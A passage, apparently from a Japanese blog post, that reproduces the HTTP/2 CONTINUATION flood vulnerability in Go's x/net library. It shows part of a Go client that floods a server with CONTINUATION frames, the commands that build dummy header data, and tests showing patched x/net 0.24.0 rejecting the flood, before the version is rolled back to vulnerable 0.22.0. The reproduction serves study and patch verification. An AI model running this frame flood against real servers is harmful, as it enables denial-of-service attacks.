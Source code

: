 ``` go
	N := 1_000_000_000_000
	for i := 0; i < N; i++ {
		if err := framer.WriteContinuation(1, i == N-1, continuationHeaders); err != nil {
			log.Fatal("write headers error: ", err)
		}
	}

}
```

今回はダミーの header を作って送っています。

``` sh
cat /dev/random | head -c 1000 | base64 > dummy-key
cat /dev/random | head -c 1000 | base64 > dummy-value
```

この Header 単体だとエラーが出ますが、今回は負荷をかけることが目的なので特に気にせず進みます。

### 動作確認: x/net 0.24.0

http2 の実装が入っている x/net ですが、[脆弱性のパッチが当たったものは 0.24.0](https://pkg.go.dev/golang.org/x/net?tab=versions) となっています。

``` sh
# サーバー側の x/net を最新にする。
go get -u golang.org/x/net@v0.24.0
```

先ほどのクライアントからサーバーを叩き、サーバー側のメモリを確認してみます。

リクエスト送信直後に PROTOCOL_ERROR が発生していることがわかります。

``` sh
$ go run main.go -m

Alloc = 0 MiB   TotalAlloc = 0 MiB      Sys = 7 MiB     NumGC = 0
Alloc = 0 MiB   TotalAlloc = 0 MiB      Sys = 7 MiB     NumGC = 0
Alloc = 0 MiB   TotalAlloc = 0 MiB      Sys = 7 MiB     NumGC = 0
2024/04/09 16:33:08 http2: server connection error from [::1]:58363: connection error: PROTOCOL_ERROR
Alloc = 0 MiB   TotalAlloc = 0 MiB      Sys = 7 MiB     NumGC = 0
Alloc = 0 MiB   TotalAlloc = 0 MiB      Sys = 7 MiB     NumGC = 0
Alloc = 0 MiB   TotalAlloc = 0 MiB      Sys = 7 MiB     NumGC = 0
```

クライアントにもエラーが出ており、一定値以上送信されないようになっていることがわかりました。

```
2024/04/09 16:33:09 write headers error: write tcp [::1]:58363->[::1]:8080: write: broken pipe
exit status 1
```

### 動作確認: x/net 0.22.0

``` sh
# サーバー側の x/net を脆弱性対応前に戻す。
go get -u golang.org/x/net@v0.22.0
```
